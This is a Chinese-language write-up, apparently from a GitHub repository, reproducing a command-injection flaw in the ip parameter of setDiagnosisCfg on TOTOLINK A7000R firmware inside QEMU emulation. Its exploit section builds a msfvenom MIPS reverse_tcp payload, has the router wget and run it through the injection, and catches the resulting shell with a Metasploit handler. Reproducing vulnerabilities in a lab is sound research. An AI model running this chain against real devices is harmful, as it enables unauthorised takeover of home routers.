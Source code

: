 ## 漏洞描述
漏洞类型：命令注入

版本：A7000R V9.1.0u.6115_B20201022

漏洞位置：`setDiagnosisCfg`的ip参数

固件下载地址：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/171/ids/36.html

## 漏洞分析


## 漏洞复现
采用全系统仿真，配置主机网络

```
sudo brctl addbr virbr2 # 创建网桥  
sudo ifconfig virbr2 192.168.122.1/24 up # 配置网桥IP  
sudo tunctl -t tap2 # 添加虚拟网卡tap2  
sudo ifconfig tap2 192.168.122.11/24 up # 配置虚拟网卡IP  
sudo brctl addif virbr2 tap2 # 配置虚拟网卡与网桥连接
```

启动全系统仿真

```
sudo qemu-system-mipsel \  
-M malta \  
-cpu 74Kf \  
-m 2G \  
-object rng-random,id=rng0,filename=/dev/urandom -device virtio-rng-pci,rng=rng0 \  
-kernel vmlinux-3.2.0-4-4kc-malta \  
-hda debian_wheezy_mipsel_standard.qcow2 \  
-append "root=/dev/sda1 console=tty0" \  
-netdev tap,id=tapnet,ifname=tap2,script=no \  
-device rtl8139,netdev=tapnet \  
-nographic
```

root:root登录，设置客户机eth0 ip：

```
ifconfig eth0 192.168.122.15 up # 配置路由器IP
```

注释掉配置文件`/lighttpd/lighttpd.conf`并将指定pid文件那一行

![](images/Pasted%20image%2020230823104639.png)

将文件系统从主机传到客户机上

```
scp -r squashfs-root/ root@192.168.122.15:/root/ # 拷贝路由器文件到虚拟机
```

chroot启动http服务

```
chroot ./squashfs-root/ /bin/sh   
/usr/sbin/lighttpd -f /lighttp/lighttpd.conf -m /lighttp/lib    #-m指定动态链接库所在文件夹
```

#TODO 命令行启动图

主机浏览器访问，可以访问得到

![](images/Pasted%20image%2020230823104729.png)

用Burpsuite抓取数据包修改，如图所示，执行ls命令可以得到结果，命令成功被执行。

![](images/Pasted%20image%2020230823104959.png)
## exploit
利用msf获取shell

### 安装msf
在ubuntu上安装msf的方法([Ubuntu快速安装MSF](https://www.cnblogs.com/tomyyyyy/p/12813299.html))：运行官方安装脚本

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \chmod 755 msfinstall && \./msfinstall
```

安装postgresql数据库，确认服务启动

```
sudo apt install postgresql
sudo service postgresql status
```

输入`msfconsole`，提示是否建立一个数据库，选择`y`。

输入`search windows` 测试数据库是否可用，可用到此结束。

### payload
利用msfvenom命令生成payload

```
msfvenom -p linux/mipsle/shell/reverse_tcp LHOST=192.168.122.11 LPORT=1234 -f elf > payload.elf
```

然后主机payload目录开启python http服务，通过命令执行让客户端wget下载payload

![](images/Pasted%20image%2020230823105817.png)

![](images/Pasted%20image%2020230823105904.png)

此时客户机上已经有了相应文件

![](images/Pasted%20image%2020230823105940.png)

接下来通过命令执行赋给payload.elf执行权限
```
chmod +x payload.elf
```

在主机上输入`msfconsole` 开启msf并配置运行

```
use exploit/multi/handler  
set payload linux/mipsle/shell/reverse_tcp  
set lhost 192.168.122.11  
set lport 1234
run
```

![](images/Pasted%20image%2020230823110320.png)

接着通过命令执行漏洞让客户端执行payload.elf：`./paylaod.elf`，然后主机就获取到了客户机的shell。

![](images/Pasted%20image%2020230823110557.png)

参考链接：

[TOTOLINK CVE-2022-37083 漏洞分析&复现 (qq.com)](https://mp.weixin.qq.com/s/ySKTpj8-u7Fk1mJzu8NLig)

[对tenda getshell之后的reverse_shell | ZhouYetao](https://zhouyetao.github.io/2021/09/19/%E5%AF%B9tenda%20getshell%E4%B9%8B%E5%90%8E%E7%9A%84reverse_shell/)
